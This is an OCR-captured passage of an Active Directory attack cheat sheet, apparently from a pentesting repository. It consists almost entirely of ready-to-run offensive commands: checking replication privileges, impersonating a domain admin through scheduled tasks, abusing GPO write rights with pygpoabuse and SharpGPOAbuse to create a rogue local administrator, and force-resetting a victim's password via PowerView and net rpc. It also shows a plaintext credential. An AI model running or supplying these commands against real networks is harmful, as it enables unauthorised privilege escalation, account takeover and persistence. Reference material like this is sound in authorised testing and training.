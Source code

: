 ```shell
# to check what groups/user has replicating pirvs
dsacls "dc=corp,dc=com" | findstr /i replicat


```
#### LoggedOn User Impersonation
```shell
# impersonate any domain user/admin in the machine where we are local admin
query user # to query logged on user session
schtasks /create /tn ImpersonateDA /tr "cmd.exe /c whoami > C:\Temp\impersonated.txt" /sc ONCE /st 00:00 /RL HIGHEST /RU "CORP\DAusername" /RP "" /F

# to test
schtasks /run /tn ImpersonateDA
type C:\Temp\impersonated.txt

# cleanup
schtasks /delete /tn ImpersonateDA /f

```
#### DACL Abuse
[ACL ABUSE LIST](https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/acl-abuse)

Highly Recommended
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-acl-ace/

```shell
# If you have GenericWrite on the GPO then create a scheduled task in GroupPolicy using the belwo tool
# directly from kali
python pygpoabuse.py 'secura.yzx/charlotte:Game2On4.!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net user synacktiv_pygpoabuse Password123! /add && net localgroup administrators synacktiv_pygpoabuse /add' -v -dc-ip 192.168.106.97 
# [referenced here](https://www.synacktiv.com/en/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more)
# gpo id can be checked from bloodhound or powerview

# We can also add ourselves in Local Administrators group
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

# if have access to windows then
gpupdate /force # to quickly update the group policy over the network otherwise wait
```

##### **1. GenericAll on a User – Reset Password (Full Control)**

```powershell
# WINDOWS
Set-DomainUserPassword -Identity "victimuser" -AccountPassword (ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force)
net user username newpass /domain

# KALI LINUX
net rpc password "victimuser" "NewP@ss123!" -U "DOMAIN/controlleduser%Password123" -S <DC_IP>
```
